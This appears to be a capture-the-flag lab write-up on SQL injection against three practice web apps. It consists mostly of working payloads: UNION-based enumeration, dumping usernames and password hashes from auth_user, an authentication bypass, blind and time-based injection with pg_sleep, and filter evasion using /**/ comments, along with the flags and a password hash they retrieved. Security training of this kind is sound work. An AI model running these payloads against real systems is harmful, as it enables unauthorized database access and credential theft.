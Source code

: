 # sqli

Web app has a search form that requests to the database about available courses. That functionality is vulnerable to the SQLi (`UNION`)

1. try send to the database malitious request -> `'`
database responds with error
2. add `--` -> ok
3. figure out number of colums in original request

```
' UNION SELECT NULL; -- # error
' UNION SELECT NULL, NULL; -- error
' UNION SELECT NULL, ..., NULL; -- error
' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL; -- ok

or

' order by 1 ... n --
' order by 8 -- # no errors
' order by 9 -- # error
```

3.1 find which columns contain text

```
' UNION SELECT 'a', NULL, NULL, NULL, NULL, NULL, NULL, NULL --

result -> two columns contain text 2nd and 3d

' UNION SELECT NULL, 'a', 'a', NULL, NULL, NULL, NULL, NULL --

```

4. now try to figure out what kind of database runs and witch number of colums displayed  

```
' UNION SELECT NULL, NULL, TABLE_NAME, NULL, NULL, NULL, NULL, NULL FROM INFORMATION_SCHEMA.TABLES ; --

' UNION SELECT NULL, NULL, TABLE_NAME, NULL, NULL, NULL, NULL, NULL FROM INFORMATION_SCHEMA.TABLES WHERE table_name like '%user%'; --
```
5. in the response I've found the needed table name - `pg_user`. Now, let's try to figure out the version of DB

```
' UNION SELECT NULL, NULL, version(), NULL, NULL, NULL, NULL, NULL  ; --

PostgreSQL 13.4 (Debian 13.4-1.pgdg100+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit 
```
*In order to figure out the type of db I can run -> `SELECT 'foo' WHERE 1 = (SELECT 'secret')`*

6. figure out column names from the tables

```
' UNION SELECT NULL, NULL, COLUMN_NAME, NULL, NULL, NULL, NULL, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='pg_users'; --
**not worked**

' UNION SELECT NULL, NULL, COLUMN_NAME, NULL, NULL, NULL, NULL, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'auth_user' ; --
works

find -> username and password

' UNION SELECT NULL, username, password, NULL, NULL, NULL, NULL, NULL FROM auth_user --

```
---

admin:pbkdf2_sha256$260000$8x6bvhEx8XiIuhB9QRf58F$YiZaFiVO/GZV3HwIN4KMGjk83FCJ4ZxfCX7k8UbQAFg=

---

*retrieve data of two columns into one column -> concutination '||'*

```
' UNION SELECT NULL, NULL, username || ':' || password, NULL, NULL, NULL, NULL, NULL FROM auth_user --
```


7. expose value of the flag in the table main_secret
```
' UNION SELECT NULL, NULL, flag, NULL, NULL, NULL, NULL, NULL FROM main_secret ; --

86851706-0473-441d-bfd4-7bb203c02ba6
```

8. 2nd macnime

Authentication function is vulnerable to SQLi

```
username: admin
password: ' or 1=1 ; -- # password parameter is vulnerable to SQLi

FLAG:d7aff44b-df06-4054-b11c-9632f82036d9
```
9. 3d machine - use blind SQL to list the content of the secret table on the database

9.1 confirm that the parameter is vulnerable to blind SQLi

if course exists -> displays it
if course doesn't exist -> displays `Courses not found =(`
different behaiviar

```
select courses from courses_table where course like '%{user_input}%'' and 1=1 --'

payload: ' and 1=1 --
if it's true then I'll see course, if not I'll see Courses not found =(
```
9.2 time based

1. confirm that the parameter is vulnerable to SQLi
```
'+||+pg_sleep(10)-- # it works
```
2. confirm that the secret table exists in the database

```
doesn't work -> something is protecting
' || (select case when (1=1) then pg_sleep(10) else pg_sleep(-1) end)--
```

let's try to replace whitespaces on `/**/`

```
and it worked
'||/**/(cASe/**/wHEn/**/(5!=6)/**/thEn/**/pg_sleep(10)/**/eLsE/**/pg_sleep(0)/**/enD)--

'/**/order/**/by/**/8--

' UNION/**/SELECT/**/NULL,NULL,version(),NULL,NULL,NULL,NULL,NULL--

' UNION/**/SELECT/**/ NULL,/**/ NULL,/**/ table_name,/**/NULL,NULL,NULL,NULL,NULL/**/from/**/information_schema.tables;--

' UNION/**/SELECT/**/ NULL,NULL,table_name,/**/NULL,NULL,NULL,NULL,NULL/**/from/**/information_schema.tables/**/where/**/table_name/**/like/**/'%secret%';--
```
works with and without `;`

to list the flag
```
' UNION/**/SELECT/**/ NULL,NULL,table_name,/**/NULL,NULL,NULL,NULL,NULL/**/from/**/information_schema.tables/**/where/**/table_name/**/like/**/'%secret%';--

2f01ef96-e8d7-4649-879d-d5182060196f
``` 

